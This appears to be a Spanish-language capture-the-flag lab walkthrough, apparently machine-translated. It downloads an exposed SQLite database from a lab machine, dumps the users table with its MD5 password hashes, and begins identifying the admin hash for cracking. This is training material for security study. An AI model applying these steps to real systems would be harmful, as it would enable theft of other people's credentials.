 `webapp.db`

1. Utilice el material de apoyo para acceder a los datos confidenciales. ¿Cuál es el hash de la contraseña del usuario administrador?

```
wget http://10.10.45.163/assets/webapp.db

file webapp.db
webapp.db: SQLite 3.x database, last written using SQLite version 3022000
```

```
sqlite3 webapp.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
sessions  users
sqlite>
```

```
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
```

```
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
```

`6eea9b7ef19179a06954edd0f6c05ceb`

2. Rompe el hachís. ¿Cuál es la contraseña de texto sin formato del administrador?

```
hashid 6eea9b7ef19179a06954edd0f6c05ceb

Analyzing '6eea9b7ef19179a06954edd0f6c05ceb'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
[+] Domain Cached Credentials 2
[+] DNSSEC(NSEC3)
[+] RAdmin v2.x
```
